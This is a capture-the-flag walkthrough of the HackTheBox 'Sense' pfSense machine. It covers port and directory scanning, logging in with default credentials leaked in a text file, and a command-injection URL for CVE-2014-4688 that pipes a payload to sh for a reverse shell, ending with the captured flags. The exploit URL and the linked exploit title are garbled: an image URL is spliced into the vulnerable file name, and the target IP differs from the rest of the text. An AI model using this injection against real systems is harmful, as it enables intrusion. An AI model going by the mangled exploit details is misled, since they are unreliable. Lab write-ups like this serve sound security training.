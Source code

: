 ```yaml
---
title: HackTheBox - Sense
date: 2021-01-19 21:50:04 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, FreeBSD, pfSense, gobuster, default credentials, searchsploit, CVE-2014-4688, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/Sense.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sense-full-port-scan.txt 10.10.10.60
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

> **WARNING**: By default, `nmap` does only a SYN scan (only the first two parts of a TCP handshake &rarr; SYN, SYN/ACK, ACK). We can add `-sT` option to do a full TCP scan. Doing just a SYN scan speeds things up. The downside is that if firewall products notice that you never completing the whole handshake, it may flag you as a bot and block you.

### lighttpd/1.4.35 (ports 80 & 443)

![pfSense](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/80.png)

It looks like an old pfSense login page.

#### `gobuster`

```bash
$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt -k
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2021/01/19 18:13:18 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
===============================================================
2021/01/19 19:30:07 Finished
===============================================================
```

We can take a look at the two txt files.

> **TIP**: If we use `nikto`, the firewall blocks our IP address. Probably due to some brute-force. An advice, consider bigger wordlists like `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt` rather than `/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt` before running scanners like nikto.

#### `/changelog.txt`

![changelog.txt](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/80-changelog.png)

Considering these notes, we'll probably have to exploit a vulnerability on pfSense. 

#### `/system-users.txt`

![system-users.txt](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/80-system-users.png)

PfSense default password (source: https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html):

![PfSense default password](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/default_pass.png)

Now we have some credentials:
- **username**: `rohit`
- **password**: `pfsense`

#### pfSense dashboard

![](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/80-release.png)

We can see pfSense version number: `2.1.3`.

## Exploitation

Let's take a look at searchsploit:

![searchsploit](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/searchsploit.png)

![exploit](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/exploit.png)

This exploit just run a reverse shell bash command via the following URL:

`https://10.10.10.160/status_rrd_graph_https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense.php?database=queues;printf'PAYLOAD'|sh`

![payload](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense/payload.png)

- Flags:

```console
$ cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
$ cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b
```
___

## Useful links

- [pfSense < 2.1.4 - 'status_rrd_graph_https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/sense.php' Command Injection ](https://www.exploit-db.com/exploits/43560)
- [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)
